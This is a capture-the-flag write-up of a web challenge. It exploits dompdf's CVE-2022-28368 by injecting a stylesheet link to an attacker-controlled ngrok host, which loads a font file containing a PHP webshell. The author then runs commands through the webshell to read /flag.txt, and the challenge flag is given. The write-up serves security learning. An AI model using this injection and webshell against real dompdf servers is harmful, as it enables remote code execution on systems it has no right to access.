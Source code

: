 >Wooohoo!!! Stickers!!! Hackers love STICKERS!! You can make your own with our new website!
>**Find the flag file in `/flag.txt` at the root of the filesystem.**
--------------
Visiting the website, there is a form to fill out custom information. Upon submitting data, we are generated a pdf webpage:

![Pasted image 20230616151436.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616151436.png)

In particular I notice the url of the page corresponds to the data I submitted:

```
http://challenge.nahamcon.com:31182/quote.php?organisation=&email=&small=0&medium=0&large=0
```

I downloaded the pdf file and decided to see if I can glean some information on how it was generated:

```
$ exiftool quote.pdf 
ExifTool Version Number         : 12.57
File Name                       : quote.pdf
Directory                       : .
File Size                       : 2.5 kB
File Modification Date/Time     : 2023:06:16 15:15:27-04:00
File Access Date/Time           : 2023:06:16 15:15:27-04:00
File Inode Change Date/Time     : 2023:06:16 15:15:27-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
Producer                        : dompdf 1.2.0 + CPDF
Create Date                     : 2023:06:16 19:14:20+00:00
Modify Date                     : 2023:06:16 19:14:20+00:00
Title                           : Quote
```

Immediately the producer `dompdf` stands out to me. I recognize a pretty serious vulnerability it that can lead to remote code execution [CVE-2022-28368](https://nvd.nist.gov/vuln/detail/CVE-2022-28368). 

I used [this poc post](https://github.com/positive-security/dompdf-rce) to exploit this.

Using my own `ngrok` website, I direct the payload toward myself, where it can pick up the malicious php:

```
challenge.nahamcon.com:31182/quote.php?organisation=<link rel=stylesheet href='https://91cf-50-81-86-237.ngrok-free.app/exploit.css'>&email=&small=0&medium=0&large=0
```

In the exploit_font.php, I used a simple webshell one-liner:

```shell
$ cat exploit_font.php 

� dum1�cmap
           `�,glyf5sc��head�Q6�6hhea��($hmtxD
loca
Tmaxp\ nameD�|8dum2�
                     -��-����
:83#5:08��_<�
             @�8�&۽
:8L��

:D

6                               s
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

The unreadable junk above seems to be related to the file being intended as a font style, so it was left unchanged. 

After the request is sent, I see two GET requests on my server, knowing that it was successfully retrieved:

```
HTTP Requests                                                                                                       
-------------                                                                                                       
                                                                                                                    
GET /exploit_font.php          200 OK                                                                               
GET /exploit.css               200 OK 
```

Now we need to determine the new name of the malicious php downloaded. While not thoroughly explained in the POC github, it appears that the name is based on the `md5sum` of the download link, in this case my ngrok link:

```
$ echo -ne "https://91cf-50-81-86-237.ngrok-free.app/exploit_font.php" | md5sum
88045a0e7631a2540434bb8c27d7d483  -

```


Now we visit the downloaded link under the format `/dompdf/lib/fonts/<font-family>_<style>_<md5(url)>.php`

```
challenge.nahamcon.com:31182/dompdf/lib/fonts/exploitfont_normal_88045a0e7631a2540434bb8c27d7d483.php?cmd=id
```

```
� dum1�cmap`�,glyf5sc��head�Q6�6hhea��($hmtxD Lloca Tmaxp\ nameD�|8dum2� -��-���� :83#5:08��_<�@�8�&۽ :8L�� :D 6    s

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We do indeed see that it works! We were told the flag is located in root of the filesystem:

```
challenge.nahamcon.com:31182/dompdf/lib/fonts/exploitfont_normal_88045a0e7631a2540434bb8c27d7d483.php?cmd=cat /flag.txt
```


`flag{a4d52beabcfdeb6ba79fc08709bb5508}`
